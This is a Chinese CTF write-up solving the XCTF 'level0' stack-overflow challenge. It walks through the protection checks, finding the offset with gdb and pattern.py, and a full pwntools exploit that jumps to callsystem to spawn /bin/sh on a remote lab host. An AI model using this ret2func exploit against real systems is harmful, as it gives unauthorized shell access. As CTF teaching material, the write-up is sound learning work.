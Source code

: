 # 攻防世界: level0

## **[目标]**
栈溢出

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**
拿到这道题，首先要做的先检查有哪些保护机制是打开的：

![](./pic/1.png)
没有开 canary，PIE 也是关闭的，但是栈不可执行。也就是说我们可以进行溢出，但是不能将 shellcode 写在栈上，因为现在栈上的代码是不能被执行的。

用ida查看：


![](./pic/2.png)
这是 vulnerable_function 函数，可以在栈上写0x200个字节，或许我们可以进行溢出，覆盖掉返回地址，劫持程序执行流，执行我们想执行的方法。通常我们的目的是去执行 `system("/bin/sh")`。

* 看看有价值的strings，除了输出的helloworld 还发现了“/bin/sh”，查看调用发现了 callsystem函数，我们可以把返回地址改成callsystem的地址。


![](./pic/8.png)

![](./pic/9.png)
双击bin/sh就能查看bin/sh的存储位置


![](./pic/10.png)
将光标放置在bin/sh这一行，按键盘上x就能找到哪里调用了bin/sh，这样我们就找到了callsystem。

![](./pic/11.png)

那么我们到底需要输入多少个字节才能覆盖到返回地址呢？

* 我们用pattern.py来确定溢出点的位置,使用如下命令来生成一串150个字节的字符串。


![](./pic/3.png)
* 然后我们使用gdb来进行调试


![](./pic/4.png)
* 指针并没有指向类似于0x3745413675413465那样地址，而是停在了vulnerable_function()函数中。因为程序使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。


![](./pic/5.png)
* 虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。


![](./pic/6.png)
* 然后我们再用pattern来计算溢出点


![](./pic/7.png)
可以看到溢出点为136字节

* 程序中有一个callsystem函数，我们可以把返回地址改成这个函数的地址。 最终执行system("/bin/sh")。构造payload：

```
payload = "A"*0x88 + elf.symbols["callsystem"]
```

完整exp：

```
from pwn import *

#p = process("./level0")
elf = ELF("./level0")
p = remote('10.10.49.194', 30154)

padding = "A"*0x88
addr = elf.symbols["callsystem"]

payload = ""
payload += padding
payload += p64(addr)

p.send(payload)
p.interactive()

```
## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)
